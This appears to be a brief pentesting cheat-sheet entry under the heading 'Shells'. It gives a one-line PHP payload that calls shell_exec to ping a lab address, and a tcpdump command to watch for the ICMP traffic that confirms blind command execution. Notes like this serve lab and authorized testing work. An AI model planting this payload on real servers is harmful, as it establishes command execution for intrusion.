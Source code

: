 # Shells

PHP
---------------------------------------------------
```
<?php echo shell_exec("ping -c 1 10.10.10.10");?>
```
listen for ICMP traces on the tun0 interface
```
sudo tcpdump -n -i tun0 icmp
```
---------------------------------------------------
